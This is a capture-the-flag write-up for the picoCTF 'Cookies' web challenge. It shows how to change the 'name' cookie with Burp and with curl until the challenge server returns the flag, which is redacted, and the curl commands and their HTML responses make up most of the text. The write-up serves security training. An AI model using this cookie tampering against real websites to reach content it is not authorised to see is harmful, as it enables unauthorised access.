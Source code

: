 ```yaml
---
title: PicoCTF - Cookies
date: 2023-12-08
categories: [PicoCTF, Web Exploitation]
tags: [picoctf, web-exploitation, cookies, http-requests, burp-suit, curl]
img_path: /assets/picoctf/web_exploitation/cookies
published: true
---
```


![](cookie_banner.png)

Visiting the link:

![](home.png)

Putting `snickerdoodle` as input results to:

![](snickerdoodle_cookie.png)

Intercepting the traffic with Burp and refreshing the page:

![](0_snickerdoodle.png)

We have a cookie called `name` set to value `0`. Sending requests with different cookie values results to different responses, including the flag:

![](1_chock.png)

![](2_oat.png)

![](18_flag.jpg)

![](28_mac.png)

We can also do the same process using `curl`:

```shell
# getting the head info
curl http://mercury.picoctf.net:29649/ -I
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://mercury.picoctf.net:29649/
Set-Cookie: name=-1; Path=/
```

We can see there there is a cookie called `name` with the value of `-1`. We can set our own value and see what happens:

```shell
# setting cookie's value to 0
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=0;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
```

```shell
# setting cookie's value to 1
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=1;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
```

```shell
# setting cookie's value to 18
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
```

We notice that when the `name=18` it does not return any cookie back! So we can get the full response to see what's happening:

```shell
# getting the full response back
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{<SNIP>}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```